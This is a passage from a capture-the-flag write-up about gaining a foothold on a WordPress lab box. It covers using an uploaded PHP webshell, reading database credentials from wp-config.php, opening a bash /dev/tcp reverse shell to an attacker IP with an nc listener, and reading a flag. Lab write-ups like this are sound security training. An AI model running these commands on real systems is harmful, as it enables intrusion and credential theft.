 ### Initial Foothold
`Gaining access to the box` <br/>
* The shell is uploaded to the location *http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/11/shell-1667918567.7365.php*
* I then used a tool I created [webshell](https://github.com/allannjuguna/scripts/blob/main/webshell.py) to access the php webshell
	![images](/images/Blogger/8.jpg)
* Reading the `wp-config.php` file we find the following credentials
	![images](/images/Blogger/9.jpg)
* Below is a snippet of the information in the file
	```
	define('DB_NAME', 'wordpress');
	/** MySQL database username */
	define('DB_USER', 'root');
	/** MySQL database password */
	define('DB_PASSWORD', 'sup3r_s3cr3t');
	/** MySQL hostname */
	define('DB_HOST', 'localhost');
	```

* We can then establish a reverse netcat connection from the victim machine using */bin/bash -c 'bash -i >& /dev/tcp/192.168.49.241/8080 0>&1'* where 192.168.49.241 is the attacker machine, then listen for the connection on the attacker machine using `nc -vvlp 8080` 
![images](/images/Blogger/10.jpg)
* Checking the `/tmp` folder , we find the following content
```
www-data@ubuntu-xenial:~$ ls /tmp
backup.tar.gz
vmware-root
```
* The `backup.tar.gz` file looks interesting, extracting the file, we get the local flag.
```
www-data@ubuntu-xenial:~$ tar -xvf backup.tar.gz
local.txt
ㅤ
www-data@ubuntu-xenial:~$ ls
backup.tar.gz
local.txt
vmware-root
ㅤ
www-data@ubuntu-xenial:~$ cat local.txt
e0ce00f4126d0271c1f4eb3681cda8f0
ㅤ
www-data@ubuntu-xenial:~$
```
* Find files in the `home` directory 
```
$ find /home -type f 2>/dev/null
/home/james/local.txt
/home/james/.bashrc
/home/james/.bash_logout
/home/james/.profile
/home/vagrant/.bashrc
/home/vagrant/.mysql_history
/home/vagrant/.bash_logout
/home/vagrant/.profile
/home/vagrant/.bash_history
/home/ubuntu/.bashrc
/home/ubuntu/.bash_logout
/home/ubuntu/.profile
$ 
```
* Reading the first flag